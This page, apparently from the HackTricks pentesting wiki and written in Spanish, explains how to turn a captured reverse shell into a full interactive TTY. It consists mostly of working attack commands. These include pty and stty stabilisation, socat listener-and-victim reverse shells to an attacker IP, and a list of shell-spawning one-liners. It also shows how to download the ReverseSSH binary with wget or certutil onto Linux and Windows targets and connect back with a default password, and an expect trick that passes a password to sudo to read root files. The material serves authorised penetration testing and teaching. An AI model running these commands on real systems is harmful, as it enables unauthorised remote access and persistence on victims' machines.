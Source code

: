 # TTY completo

Tenga en cuenta que la shell que establezca en la variable `SHELL` **debe** estar **listada dentro** de _**/etc/shells**_ o `The value for the SHELL variable was not found in the /etc/shells file This incident has been reported`. Además, tenga en cuenta que los siguientes fragmentos solo funcionan en bash. Si está en zsh, cambie a bash antes de obtener la shell ejecutando `bash`.

#### Python

{% code overflow="wrap" %}
```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'

(inside the nc session) CTRL+Z;stty raw -echo; fg; ls; export SHELL=/bin/bash; export TERM=screen; stty rows 38 columns 116; reset;
```
{% endcode %}

{% hint style="info" %}
Puedes obtener el **número** de **filas** y **columnas** ejecutando **`stty -a`**
{% endhint %}

#### script

{% code overflow="wrap" %}
```bash
script /dev/null -qc /bin/bash #/dev/null is to not store anything
(inside the nc session) CTRL+Z;stty raw -echo; fg; ls; export SHELL=/bin/bash; export TERM=screen; stty rows 38 columns 116; reset;
```
{% endcode %}

#### socat

Socat es una herramienta de red multipropósito que permite la creación de conexiones bidireccionales entre dos puntos. Es muy útil para redirigir puertos, tunelizar conexiones y mucho más. En el contexto de una shell completa, se puede utilizar para redirigir la entrada y salida estándar de un proceso a través de una conexión de red. Esto permite a un atacante interactuar con una shell remota como si estuviera en la máquina local. 

Para utilizar socat, primero se debe establecer una conexión de red entre la máquina local y la remota. Por ejemplo, para redirigir la entrada y salida estándar de una shell remota a través de una conexión TCP, se puede ejecutar el siguiente comando en la máquina local:

```bash
socat TCP-LISTEN:4444,reuseaddr,fork EXEC:"bash -i"
```

Esto establece un servidor TCP en el puerto 4444 de la máquina local y redirige la entrada y salida estándar de un proceso de shell a través de la conexión. Luego, en la máquina remota, se puede ejecutar el siguiente comando para conectarse al servidor y obtener una shell completa:

```bash
socat TCP:<local-ip>:4444 EXEC:/bin/bash,pty,stderr,setsid,sigint,sane
```

Donde `<local-ip>` es la dirección IP de la máquina local. Esto establece una conexión TCP con el servidor en la máquina local y redirige la entrada y salida estándar de un proceso de shell a través de la conexión. La opción `pty` se utiliza para asignar un pseudo-terminal a la shell remota, lo que permite la interacción con la shell como si estuviera en la máquina local.
```bash
#Listener:
socat file:`tty`,raw,echo=0 tcp-listen:4444

#Victim:
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.0.3.4:4444
```
### **Generar shells**

* `python -c 'import pty; pty.spawn("/bin/sh")'`
* `echo os.system('/bin/bash')`
* `/bin/sh -i`
* `script -qc /bin/bash /dev/null`
* `perl -e 'exec "/bin/sh";'`
* perl: `exec "/bin/sh";`
* ruby: `exec "/bin/sh"`
* lua: `os.execute('/bin/sh')`
* IRB: `exec "/bin/sh"`
* vi: `:!bash`
* vi: `:set shell=/bin/bash:shell`
* nmap: `!sh`

## ReverseSSH

Una forma conveniente de obtener acceso a una **shell interactiva**, así como para **transferir archivos** y **reenviar puertos**, es dejar caer el servidor ssh estáticamente vinculado [ReverseSSH](https://github.com/Fahrj/reverse-ssh) en el objetivo.

A continuación se muestra un ejemplo para `x86` con binarios comprimidos con upx. Para otros binarios, consulte la [página de lanzamientos](https://github.com/Fahrj/reverse-ssh/releases/latest/).

1. Preparar localmente para capturar la solicitud de reenvío de puerto ssh:

{% code overflow="wrap" %}
```bash
# Drop it via your preferred way, e.g.
wget -q https://github.com/Fahrj/reverse-ssh/releases/latest/download/upx_reverse-sshx86 -O /dev/shm/reverse-ssh && chmod +x /dev/shm/reverse-ssh

/dev/shm/reverse-ssh -v -l -p 4444
```
{% endcode %}

* (2a) Objetivo Linux:

{% code overflow="wrap" %}
```bash
# Drop it via your preferred way, e.g.
wget -q https://github.com/Fahrj/reverse-ssh/releases/latest/download/upx_reverse-sshx86 -O /dev/shm/reverse-ssh && chmod +x /dev/shm/reverse-ssh

/dev/shm/reverse-ssh -p 4444 kali@10.0.0.2
```
{% endcode %}

* (2b) Objetivo Windows 10 (para versiones anteriores, consulte el [readme del proyecto](https://github.com/Fahrj/reverse-ssh#features)):

{% code overflow="wrap" %}
```bash
# Drop it via your preferred way, e.g.
certutil.exe -f -urlcache https://github.com/Fahrj/reverse-ssh/releases/latest/download/upx_reverse-sshx86.exe reverse-ssh.exe

reverse-ssh.exe -p 4444 kali@10.0.0.2
```
* Si la solicitud de reenvío de puerto ReverseSSH fue exitosa, ahora deberías poder iniciar sesión con la contraseña predeterminada `letmeinbrudipls` en el contexto del usuario que ejecuta `reverse-ssh(.exe)`:
```bash
# Interactive shell access
ssh -p 8888 127.0.0.1

# Bidirectional file transfer
sftp -P 8888 127.0.0.1
```
## Sin TTY

Si por alguna razón no puedes obtener un TTY completo, **todavía puedes interactuar con programas** que esperan entrada de usuario. En el siguiente ejemplo, se pasa la contraseña a `sudo` para leer un archivo:
```bash
expect -c 'spawn sudo -S cat "/root/root.txt";expect "*password*";send "<THE_PASSWORD_OF_THE_USER>";send "\r\n";interact'
```
<details>

<summary><a href="https://cloud.hacktricks.xyz/pentesting-cloud/pentesting-cloud-methodology"><strong>☁️ HackTricks Cloud ☁️</strong></a> -<a href="https://twitter.com/hacktricks_live"><strong>🐦 Twitter 🐦</strong></a> - <a href="https://www.twitch.tv/hacktricks_live/schedule"><strong>🎙️ Twitch 🎙️</strong></a> - <a href="https://www.youtube.com/@hacktricks_LIVE"><strong>🎥 Youtube 🎥</strong></a></summary>

* ¿Trabajas en una **empresa de ciberseguridad**? ¿Quieres ver tu **empresa anunciada en HackTricks**? ¿O quieres tener acceso a la **última versión de PEASS o descargar HackTricks en PDF**? ¡Consulta los [**PLANES DE SUSCRIPCIÓN**](https://github.com/sponsors/carlospolop)!
* Descubre [**The PEASS Family**](https://opensea.io/collection/the-peass-family), nuestra colección exclusiva de [**NFTs**](https://opensea.io/collection/the-peass-family)
* Obtén la [**oficial PEASS & HackTricks swag**](https://peass.creator-spring.com)
* **Únete al** [**💬**](https://emojipedia.org/speech-balloon/) **grupo de Discord** o al [**grupo de telegram**](https://t.me/peass) o **sígueme en** **Twitter** [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/hacktricks_live)**.**
* **Comparte tus trucos de hacking enviando PRs al** [**repositorio de hacktricks**](https://github.com/carlospolop/hacktricks) **y al** [**repositorio de hacktricks-cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
